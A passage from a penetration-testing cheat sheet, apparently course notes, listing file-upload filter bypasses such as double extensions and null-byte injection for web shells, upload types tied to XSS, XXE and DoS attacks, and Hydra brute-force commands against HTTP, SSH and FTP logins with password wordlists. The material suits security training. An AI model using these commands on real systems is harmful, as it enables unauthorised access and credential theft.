 | `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |

# LOGIN BRUTE FORCING

## Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |

## Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/opt/useful/SecLists/Usernames/Names/names.txt` | Common Names Wordlist |
